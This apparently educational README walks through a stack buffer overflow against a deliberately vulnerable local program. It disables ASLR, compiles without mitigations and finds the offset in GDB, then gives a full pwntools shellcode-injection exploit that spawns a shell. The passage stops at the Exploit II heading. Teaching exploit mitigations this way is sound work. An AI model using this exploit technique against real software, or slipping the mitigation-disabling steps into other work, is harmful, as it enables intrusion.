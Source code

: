 ### An Oral History of Binary Exploitation Defences
This course entails writing an exploit for the vuln.c program that is intentionally vulnerable to a stack buffer overflow. At first, all mitigations are disabled and will each be enabled in iterations which in effect warrant updating the exploit to work around them.

### Tools
- [GDB](https://www.gdbtutorial.com/tutorial/how-install-gdb) 
- [Ghidra](https://ghidra-sre.org/)
- [Pwntools](https://docs.pwntools.com/en/latest/)
- [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

Disable ASLR on host OS
```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Compile vuln.c with no protections
```sh
gcc vuln.c -o vuln_1 -fno-stack-protector -fcf-protection=none -no-pie -z execstack -Wl,-z,norelro
```

#### Analysis of the memory mapping of the program while it is running.
- run the program
```sh
./vuln_1
```
- attach to the program with gdb
```sh
gdb -p $(pidof vuln_1)
```
- show memory areas in use by the program and their addresses. ie. heap, libc, linker, stack
```
info proc mappings
```

#### Exploit I: Exploiting like it's 1999
- For stack buffer overflows, overwriting the saved instruction pointer of the vulnerable function on the stack is the way to go for hijacking the program's execution flow. This will allow the program to return to a user controlled address instead of the main() function in this case.

#### Finding the overflow offset
The payload has to be a minimum length of 0x100 (256) in order to fill the name buffer. Everything written past that will overwrite RBP (8 bytes) and then overwrite RIP (8 bytes).
stack layout would resemble:
```txt
[name 0x100 bytes][RBP 0x8 bytes][RIP 0x8 bytes]
```

```sh
└─$ python -c 'print("A"*0x100+"B"*64)'
```
Payload:
```txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Using the payload above as input, and continuing execution in gdb(`c`), the program eventually encounters a segmentation fault (crash).

Examining the stack at the moment of the crash reveals the instruction pointer being overwritten caused the crash.
```
(gdb) x/32gx $rsp
0x7fffffffceb8: 0x4242424242424242      0x4242424242424242
0x7fffffffcec8: 0x4242424242424242      0x4242424242424242
0x7fffffffced8: 0x4242424242424242      0x000000010040000a
0x7fffffffcee8: 0x00000000004011f9      0x00007fffffffcfe8
0x7fffffffcef8: 0x30aeb707c04a935f      0x0000000000000001
0x7fffffffcf08: 0x0000000000000000      0x00007ffff7ffd000
0x7fffffffcf18: 0x0000000000403130      0x30aeb707c32a935f
0x7fffffffcf28: 0x30aea74f85f4935f      0x00007fff00000000
0x7fffffffcf38: 0x0000000000000000      0x0000000000000000
0x7fffffffcf48: 0x0000000000000001      0x00007fffffffcfe0
0x7fffffffcf58: 0x420df66049702900      0x00007fffffffcfc0
0x7fffffffcf68: 0x00007ffff7dbeecc      0x00007fffffffcff8
0x7fffffffcf78: 0x0000000000403130      0x00007fffffffcff8
0x7fffffffcf88: 0x00000000004011f9      0x0000000000000000
0x7fffffffcf98: 0x0000000000000000      0x0000000000401060
0x7fffffffcfa8: 0x00007fffffffcfe0      0x0000000000000000
```
`x32gx $rsp` means to e**x**amine **32** bytes of memory in hex format **(g)**, from $rsp (the stack pointer).

From this, RSP (the stack pointer) can be seen to be pointing to address `0x7fffffffceb8` before the crash.

The actual instruction where the crash happens on is found to be `ret`, which is the last instruction in the overflow function at address `0x4011f8`.
```
(gdb) x/i $rip
=> 0x4011f8 <overflow+178>:     ret
```
`x/i $rip` means to e**x**amine the **i**nstruction at $rip (the instruction pointer).

`ret` pops 8 bytes from the top of the stack and tries to execute them as an address. Under normal conditions, the saved instruction pointer(RIP) that points to main() is popped from the stack and executed. However, in this case, the payload has overwritten the saved instruction pointer with 0x4242424242424242 (BBBBBBBB), causing the program to crash.

Right after the overwritten instruction pointer (RIP), there are another 4 quad words(32 bytes) that were part of the payload.

This means that the correct offset would be:
```
"A"*0x100         [256]
"B"*(64-32-8)     [24]
Total             [280]
```

##### NOTE: The stack is always at the same location and always has the same layout.

With the correct offset and the above information, the start of the buffer is now known.

This can be demonstrated by trying to crash the program again with the correct offset. To generate the payload, the command should now be:
```sh
└─$ python -c 'print("A"*280 + "B"*8)'
```
Payload:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```
Looking at the stack pointer after the crash, it is verified that the instruction pointer was overwritten by "0x42"*8 ("B"s).
```
(gdb) x/2gx $rsp
0x7fffffffceb8: 0x4242424242424242      0x00007fffffffcf0a
```
The beginning of the buffer can now be verified by:
```
(gdb) x/32gx $rsp-280-16
0x7fffffffcd90: 0x00007fffffffceb0      0x00000000004011dc
0x7fffffffcda0: 0x4141414141414141      0x4141414141414141  << ** start of buffer **
0x7fffffffcdb0: 0x4141414141414141      0x4141414141414141              |||
0x7fffffffcdc0: 0x4141414141414141      0x4141414141414141              vvv
0x7fffffffcdd0: 0x4141414141414141      0x4141414141414141
0x7fffffffcde0: 0x4141414141414141      0x4141414141414141
0x7fffffffcdf0: 0x4141414141414141      0x4141414141414141
0x7fffffffce00: 0x4141414141414141      0x4141414141414141
0x7fffffffce10: 0x4141414141414141      0x4141414141414141
0x7fffffffce20: 0x4141414141414141      0x4141414141414141
0x7fffffffce30: 0x4141414141414141      0x4141414141414141
0x7fffffffce40: 0x4141414141414141      0x4141414141414141
0x7fffffffce50: 0x4141414141414141      0x4141414141414141
0x7fffffffce60: 0x4141414141414141      0x4141414141414141
0x7fffffffce70: 0x4141414141414141      0x4141414141414141
0x7fffffffce80: 0x4141414141414141      0x4141414141414141
```

The buffer starts where it is expected: `$rsp-280`
At this point, everything required to craft an exploit is known. Python and pwntools will be used to interact with the process and generate shellcode.
The exploit will entail writing shellcode into the buffer that starts at address `0x7fffffffcda0` then filling up the rest of it until the 280 offset mark then overwriting the RIP(instruction pointer) with the address `0x7fffffffcda0` so that it points back to the start of the buffer and executes the shellcode.
The layout would be:
```
0x7fffffffcda0            280
      |                    |
      |[  BUFFER  ][ RBP ] | [ RIP ]
      [Shellcode|AAAAAAA...][0x7fffffffcda0]
      ^                          |
      |                          |
      |                          |
      ----------------------------
    start
    of the
    buffer
```

exploit_1
```py
#!/usr/bin/env python3

from pwn import *

# overflow offset at 280 or 0x118 bytes
rip_offset = 0x118

# set new instruction pointer to point to the start of the buffer
rip_new = 0x7fffffffcda0

# set cpu architecture for pwntools to be 64 bit
context.update(arch="amd64")

# craft shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

# shellcode
payload = shellcode

# Add padding between shellcode and overflow offset (280).
payload += b"A" * (rip_offset - len(shellcode))

# pack new return address(start of the buffer) to little endian format and attach to the end of the payload
payload += p64(rip_new)

# connect to the vulnerable program
p = process("../../vuln_1")

# send payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y/n")

p.interactive()
```

#### Exploit II: Improving reliablity with a NOP sled.